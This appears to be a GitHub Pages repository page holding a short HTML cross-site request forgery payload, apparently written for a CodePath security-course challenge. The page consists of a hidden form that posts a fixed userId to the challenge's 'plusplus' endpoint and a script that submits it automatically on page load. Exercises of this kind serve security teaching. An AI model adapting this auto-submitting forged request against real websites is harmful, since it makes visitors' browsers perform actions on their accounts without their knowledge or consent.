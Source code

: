 # JLPlummer79.github.io

    <form name="csrfform" action="https://security.codepath.com/user/csrfchallengetwo/plusplus" method="POST">
      <input type="hidden" name="userId" value="2eff24c04dc96585b7fadc8b1fd6d80081c3ffdd"/>
      <input type="submit"/>
    </form>
    <script> document.csrfform.submit();  </script>
 
